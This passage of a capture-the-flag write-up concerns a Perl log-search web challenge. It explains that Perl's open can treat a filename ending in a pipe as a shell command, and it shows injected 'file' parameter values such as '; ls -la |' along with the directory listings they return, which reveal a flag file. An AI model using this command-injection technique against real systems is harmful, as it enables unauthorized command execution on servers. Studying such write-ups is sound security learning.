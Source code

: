 Getting `default.html` template is easy. Searching for `    ` (4 spaces) does the trick and replies with most of it. It's nothing special unfortunately, exactly matching the html we receive from the server already, except for the template part which is filled with the files in the `logs` directory.

```html
	<div class="title"><h1>Log Search Tool</h1></div>
      <div class="formelm">
        <label for="files">Choose a file...</label>
        <div>
          <select id="files">
            <TMPL_LOOP NAME="FILES">
              <option><TMPL_VAR NAME="NAME"></option>
            </TMPL_LOOP>
          </select>
        </div>
      </div>
    </div>

```

Well, stuck again...The code seems pretty harmless. I looked at the reason the LFI is possible - it seems too implicit, it's a simple `open` command, is it that risky by default? Looking at [the documenation for the `open` command in Perl](https://perldoc.perl.org/functions/open), something immediately seems odd - [`#Opening a filehandle into a command`](https://perldoc.perl.org/functions/open#Opening-a-filehandle-into-a-command). 

Excuse me? Commands? Well, turns out that you can make `open` treat the file name it is given as a shell command. I don't know why, but this is very very very powerful - basically letting me run commands on demand. I do need the `term` value to fit some of the output, but since I know what command I'm running, that's pretty easy:

```
file=; ls -la |
term=drwx
->
drwxr-xr-x 1 nobody nogroup 4096 Sep 30  2022 .
drwxr-xr-x 1 nobody nogroup 4096 Sep 30  2022 ..
drwxr-xr-x 1 nobody nogroup 4096 Sep 15  2022 logs
drwxr-xr-x 1 nobody nogroup 4096 Sep 30  2022 perl
drwxr-xr-x 2 nobody nogroup 4096 Sep 30  2022 templates
```

Alright, cool! I started listing directories left and right, but turns out I simply needed to list the root...
```
file=; ls -la / |
term=nobo
->
drwxr-xr-x   1 nobody nogroup 4096 Sep 30  2022 .
drwxr-xr-x   1 nobody nogroup 4096 Sep 30  2022 ..
lrwxrwxrwx   1 nobody nogroup    7 Jul 20  2020 bin -> usr/bin
drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 boot
drwxr-xr-x   5 nobody nogroup  360 Aug 10 13:42 dev
drwxr-xr-x  47 nobody nogroup 4096 Aug 18  2022 etc
-rw-r--r--   1 nobody nogroup   52 Aug 18  2022 flag
drwxr-xr-x   2 nobody nogroup 4096 Apr 15  2020 home
lrwxrwxrwx   1 nobody nogroup    7 Jul 20  2020 lib -> usr/lib
lrwxrwxrwx   1 nobody nogroup    9 Jul 20  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 nobody nogroup    9 Jul 20  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 nobody nogroup   10 Jul 20  2020 libx32 -> usr/libx32
drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 media
drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 mnt
drwxr-xr-x   2 nobody nogroup 4096 Jul 20  2020 opt
dr-xr-xr-x 453 nobody nogroup    0 Aug 20 19:18 proc
drwx------   3 nobody nogroup 4096 Aug 18  2022 root
drwxr-xr-x   8 nobody nogroup 4096 Aug 18  2022 run
lrwxrwxrwx   1 nobody nogroup    8 Jul 20  2020 sbin -> usr/sbin
```